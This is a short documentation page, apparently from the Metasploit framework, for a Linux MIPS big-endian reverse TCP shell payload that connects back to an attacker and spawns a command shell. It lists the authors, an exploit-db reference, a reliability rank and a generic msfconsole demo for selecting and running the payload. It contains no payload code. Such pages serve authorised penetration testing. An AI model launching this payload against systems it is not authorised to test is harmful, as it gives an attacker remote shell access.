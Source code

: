 ## Linux Command Shell, Reverse TCP Inline

Connect back to attacker and spawn a command shell


## Module Name
payload/linux/mipsbe/shell_reverse_tcp

## Authors
* rigan <imrigan[at]gmail.com>
* juan vazquez


## References
* https://www.exploit-db.com/exploits/18226




## Platforms
linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/mipsbe/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    